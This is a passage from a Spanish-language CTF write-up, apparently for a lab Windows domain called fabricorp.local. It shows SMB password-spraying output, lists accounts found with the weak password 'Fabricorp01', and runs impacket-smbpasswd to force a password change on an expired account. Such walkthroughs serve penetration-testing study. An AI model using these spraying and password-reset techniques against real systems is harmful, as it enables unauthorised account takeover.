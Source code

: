 ```shell
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\sthompson:backup_tapes STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\bhult:backup_tapes STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\pmerton:offsite_dr_invocation STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\bnielson:offsite_dr_invocation STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\tlavel:offsite_dr_invocation STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\sthompson:offsite_dr_invocation STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\bhult:offsite_dr_invocation STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\pmerton:dr_invocation STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\bnielson:dr_invocation STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\tlavel:dr_invocation STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\sthompson:dr_invocation STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\bhult:dr_invocation STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\pmerton:printing_issue_test STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\bnielson:printing_issue_test STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\tlavel:printing_issue_test STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\sthompson:printing_issue_test STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\bhult:printing_issue_test STATUS_LOGON_FAILURE
```
# Changing Users Passwords with impacket-smbpasswd
Y encontramos varios usuarios válidos que deben cambiar sus contraseñas.
- bnielson:Fabricorp01
- tlavel:Fabricorp01
- bhult:Fabricorp01

Todos estos usuarios, al intentar autenticarnos como ellos, se nos devuelve el error `NT_STATUS_PASSWORD_MUST_CHANGE`

Pero esto no es problema, porque con herramientas como `smbpasswd` podemos cambiar la contraseña del usuario, aunque sería muy ruidoso, pero estamos en un CTF...

```shell
$ impacket-smbpasswd bnielson@10.129.2.5 -newpass pointed123
Impacket v0.11.0 - Copyright 2023 Fortra

===============================================================================
  Warning: This functionality will be deprecated in the next Impacket version  
===============================================================================

Current SMB password: 
[!] Password is expired, trying to bind with a null session.
[-] Some password update rule has been violated. For example, the password may not meet length criteria.
```
